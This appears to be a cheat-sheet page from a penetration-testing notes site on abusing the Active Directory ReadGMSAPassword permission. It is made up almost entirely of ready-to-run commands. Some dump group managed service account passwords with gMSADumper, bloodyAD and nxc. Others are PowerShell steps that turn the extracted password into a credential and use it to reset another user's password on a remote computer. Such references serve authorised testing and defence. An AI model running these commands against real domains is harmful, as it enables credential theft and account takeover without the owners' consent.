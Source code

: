 ```yaml
---
title: "ReadGMSAPassword"
date: 2024-7-23
tags: ["ReadGMSAPassword", "gMSADumper", "active driectory", "ad", "Windows"]
---
```


### Abuse #1: Read GMSAPassword (From Linux)

{{< tab set1 tab1 active >}}gMSADumper{{< /tab >}}
{{< tab set1 tab2 >}}BloodyAD{{< /tab >}}
{{< tab set1 tab3 >}}nxc{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
python3 gMSADumper.py -u <USER> -p '<PASSWORD>' -l <DC> -d <DOMAIN>
```

<small>*Ref: [gMSADumper](https://github.com/micahvandeusen/gMSADumper)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
python3 bloodyAD.py -d <DOMAIN> -u <USER> -p '<PASSWORD>' --host <DC> get object <TARGET_OBJECT> --attr msDS-ManagedPassword
```

<small>*Ref: [bloodyAD](https://github.com/CravateRouge/bloodyAD)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

```console
nxc ldap -u <USER> -p '<PASSWORD>' -d <DOMAIN> <TARGET> --gmsa
```

{{< /tabcontent >}}

---

### Abuse #2: Save as Cred

{{< tab set2 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
$gmsa = Get-ADServiceAccount -Identity <TARGET_NAME> -Properties 'msDS-ManagedPassword'
```

```console
$mp = $gmsa.'msDS-ManagedPassword'
```

```console
$password = (ConvertFrom-ADManagedPasswordBlob $mp).CurrentPassword
```

```console
$SecPass = (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
```

```console
$cred = New-Object System.Management.Automation.PSCredential <TARGET_NAME>, $SecPass
```

```console
# For example, change password of another target user
Invoke-Command -ComputerName <COMPUTER_NAME> -ScriptBlock {Set-ADAccountPassword -Identity <ANOTHER_TARGET_NAME> -reset -NewPassword (ConvertTo-SecureString -AsPlainText '<PASSWORD>' -force)} -Credential $cred
```

{{< /tabcontent >}}
